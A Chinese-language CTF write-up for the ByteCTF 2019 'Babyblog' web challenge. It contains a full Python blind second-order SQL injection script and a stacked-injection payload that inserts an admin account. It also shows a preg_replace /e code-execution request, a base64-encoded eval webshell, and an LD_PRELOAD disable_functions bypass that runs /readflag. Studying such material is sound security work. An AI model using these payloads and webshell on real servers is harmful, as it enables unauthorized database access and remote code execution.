 ###Babyblog
地址：[buuctf/Babyblog](https://buuoj.cn/challenges#[ByteCTF%202019]Babyblog)
感觉是做过的最复杂的一道题了。。。
首先是扫目录得到源码，放到seay里跑了一下，发现edit.php里面有直接字符串拼接。
```php
if(isset($_POST['title']) && isset($_POST['content']) && isset($_POST['id'])){
	foreach($sql->query("select * from article where id=" . intval($_POST['id']) . ";") as $v){
		$row = $v;
	}
	if($_SESSION['id'] == $row['userid']){
		$title = addslashes($_POST['title']);
		$content = addslashes($_POST['content']);
		$sql->query("update article set title='$title',content='$content' where userid='".$_SESSION['id']."' and  title='" . $row['title'] . "';"); 
		exit("<script>alert('Edited successfully.');location.href='index.php';</script>");
	}else{
		exit("<script>alert('You do not have permission.');history.go(-1);</script>");
	}
}
```
但这里的$row['title']并不是直接post过去的，再看看它具体是什么。
```php
if(isset($_POST['title']) && isset($_POST['content'])){
	$title = addslashes($_POST['title']);
	$content = addslashes($_POST['content']);
	$sql->query("insert into article (userid,title,content) values (" . $_SESSION['id'] . ", '$title','$content');");
	exit("<script>alert('Posted successfully.');location.href='index.php';</script>");
}
```
这里是写文章的功能，使用了addslashes对传进来的参数进行了转义。看上去好像没什么问题，但实际上这个函数转义后存进数据库再取出来的还是原来的数据，所以导致了二次注入，再另外的地方访问取出来的数据即可造成攻击。这道题就是edit.php
所以先把payload写在writing.php的标题提交，然后再到edit.php把标题改掉，观察标题是否成功修改，也就是语句是否执行成功，就可以达到盲注的效果。绕过config.php的过滤可以用异或注入。直接用glzjin大佬的脚本了，其实不是很复杂。
```python
# -*- coding: utf-8 -*-
import re
import requests

# 1'^(ascii(substr((select(group_concat(schema_name)) from (information_schema.schemata)),1,1))>1)^'1

#babyblog
#article,users
#id,username,password,isvip
def main():
    get_all_databases("http://42d9d0d7-f488-4396-9f9c-0a856344c2c3.node1.buuoj.cn/")

def http_get(url, payload):
    head = {"Cookie": "PHPSESSID=29c42b504b2568d1609260a6e30d09c8"}
    result = requests.post(url + "writing.php", data={'title': "1'^(" + payload + ")^'1", 'content': 'fuhei'}, headers=head)
    result.encoding = 'utf-8'


    r2 = requests.get(url + "index.php", headers=head)


    pattern = re.compile(r'edit.php\?id=(\d+)')
    result1 = pattern.findall(r2.text)
    result = requests.post(url + "edit.php", data={'title': "fuhei", 'content': 'fuhei', "id": result1[0]},
                           headers=head)
    result.encoding = 'utf-8'


    result2 = requests.get(url + "edit.php?id=" + result1[0], headers=head)
    print(result2.text.find('ascii') == -1)


    if result2.text.find('ascii') == -1:
        return True
    else:
        return False

# 获取数据库
def get_all_databases(url):
    db_name = ""
    db_payload = "select(id) from users"
    for y in range(1, 32):
        db_name_payload = "ascii(substr((" + db_payload + "),%d,1))" % (
            y)
        db_name += chr(half(url, db_name_payload))
        print(db_name)
    print("值为：%s" % db_name)
 
# 二分法函数
def half(url, payload):
    low = 0
    high = 126
    # print(standard_html)
    while low <= high:
        mid = (low + high) / 2
        mid_num_payload = "%s > %d" % (payload, mid)
        # print(mid_num_payload)
        # print(mid_html)
        if http_get(url, mid_num_payload):
            low = mid + 1
        else:
            high = mid - 1
    mid_num = int((low + high + 1) / 2)
    return mid_num
    
if __name__ == '__main__':
    main()
```
注了半天表,发现有个isvip列,根据源码知道要得到一个vip账号来调用replace.php中的方法。config中链接数据库用的是pdo，默认可以执行多语句，所以通过堆叠注入insert一个vip账号进去
```
123';set @sql = CONCAT("in","sert into users(id,username,password,isvip) values (10,'123','202cb962ac59075b964b07152d234b70',1);");prepare stmt from @sql; EXECUTE stmt;-- asd
```
账号密码123登录进去，利用的是源码中preg_replace函数的\e参数导致的命令执行(https://xz.aliyun.com/t/2557)，还是直接看大佬的脚本，不够感觉直接用burp方便些。
```python
import requests
import base64

cookie={
    "PHPSESSID":"ffdfcfca1ca086874bc7a9540e6a280c"
}
def write():
    url="http://003cd82a-2232-4f7c-ab80-15eafa1ed3f0.node1.buuoj.cn/edit.php"
    data={
        "title":"glzjin",
        "content":'glzjin',
        "id":"3"
    }
    r=requests.post(url=url,data=data,cookies=cookie)
    return r.content

url = "http://003cd82a-2232-4f7c-ab80-15eafa1ed3f0.node1.buuoj.cn/replace.php"

command = """eval("var_dump(scandir('/tmp'));")"""

payload = "------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name=\"regex\"\r\n\r\n1\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name=\"find\"\r\n\r\nglzjin/e\x00\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name=\"content\"\r\n\r\nglzjin\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name=\"replace\"\r\n\r\n" +  command +"\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW\r\nContent-Disposition: form-data; name=\"id\"\r\n\r\n3\r\n------WebKitFormBoundary7MA4YWxkTrZu0gW--"
headers = {
    'content-type': "multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW",
    'Cookie': "PHPSESSID=ffdfcfca1ca086874bc7a9540e6a280c",
    'cache-control': "no-cache",
    }
write()
response = requests.request("POST", url, data=payload, headers=headers)

print(response.text)
```
尝试执行系统命令失败了，可以调个phpinfo看下。要绕open_basedir和disable_function。所以需要传so文件上去，上传文件开始想用copy('http://vpsip/exp.so','/tmp/exp.so')，但好像题目服务器外连不上。比较省事的是写个小马，然后交给蚁剑。利用base64加包含防止拦截。
```php
command = """eval("file_put_contents('1.php','PD9waHAgZXZhbCgkX1BPU1RbJ2FudCddKTs=');")"""
command = """eval("file_put_contents('2.php','<?php include(\\\'php://filter/convert.base64-decode/resource=1.php\\\');');")"""
或者直接不写右括号
file_put_contents('/var/www/html/webshell.php','<?php eval($_POST[a]);')
```
最后一步就是绕disable_function,利用LD_PRELOAD绕过https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD，把编译的exp.so用蚁剑上传，就可以执行命令，列根目录发现有readflag方法。最后payload
```
command =  """eval('$cmd = "/readflag ";$out_path = "/tmp/saj";$evil_cmdline = $cmd . " > " . $out_path . " 2>&1";putenv("EVIL_CMDLINE=" . $evil_cmdline);$so_path = "/tmp/exp.so";putenv("LD_PRELOAD=" . $so_path);error_log("", 1, "example@example.com");echo nl2br(file_get_contents($out_path)); unlink($out_path);')"""
```
绕basedir还可以用这段(用https://tool.lu/php/压缩成一行)
```php
eval('if($a=opendir("glob:///*")){while(($b=readdir($a))!==false){echo"$b\n";}closedir($a);}')
//如果有包括带.开头的用底下这个
$a=array();$b=new DirectoryIterator("glob:///*");foreach($b as $c){$a[]=$c->__toString();}$b=new DirectoryIterator("glob:///.*");foreach($b as $c){$a[]=$c->__toString();}sort($a);foreach($a as $c){echo"{$c}\n";}
}
```
也可以用打php-fpm来绕过openbase_dir和disable_function,参考https://www.cnblogs.com/wfzWebSecuity/p/11527392.html
